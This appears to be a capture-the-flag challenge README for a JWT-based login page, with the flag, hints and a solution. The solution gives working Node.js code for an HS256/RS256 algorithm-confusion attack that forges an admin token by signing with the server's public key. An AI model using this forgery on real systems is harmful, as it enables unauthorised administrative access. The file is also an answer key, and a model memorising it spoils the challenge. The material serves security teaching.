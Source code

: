 # login 4
Very™ Enterprise® Login™ Page™ Ultimate℠. Now® With℠ [RFC 7519](https://tools.ietf.org/html/rfc7519).

Once™ Again™, We™ Have™ Provided™ A™ Premium™ Guest™ Login™ Ultimate℠ For™ You®!℠ The℠ Username™ Is™ `Guest™`, And® The® Password™ Is™ Also® `Guest℠`. As® You® Can® See™, This℠ Is℠ Very™ Enterprise® Secure™ Ultimate℠!

Have™ Fun©!℠

## Flag
```
camp{CVE-2016-10555_fw4hiI7}
```

## Points
400

## Category
Webex

## Hints
* What's [RFC 7519](https://tools.ietf.org/html/rfc7519)?
* What are some common vulnerabilities with JWT implementations?
* You need to some sort of key to make tokens...
* Consider using a programming library, such as [node-jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken), to help you.

## Downloads
* `server/enterpriseloginsigning.key.pub` (as-is, without a trailing newline)
* `server/index.js`

## Deployment
Deploy the contents of `server/` with an up-to-date version of Node.js. Pass in the following environment variables:
* `LOGIN4_FLAG` - the flag
* `LOGIN4_USERNAME` - guest username
* `LOGIN4_PASSWORD` - guest password
* `LOGIN4_PORT` - desired port to listen to

## Solution
A typical HS256/RS256 JWT confusion problem, in which a known asymmetric key can be used as a symmetric secret.

1. `npm install jsonwebtoken`
2. Run with Node.js:
    ```javascript
    const { sign } = require("jsonwebtoken");
    const { readFileSync } = require("fs");

    console.log(sign({
        isAdmin: true
    }, readFileSync("enterpriseloginsigning.key.pub", "utf8"), {expiresIn: 3600}));
    ```
3. Paste output into the `login4_token` cookie.
4. Browse to `/flag` and get flag.

## Author
Anthony Li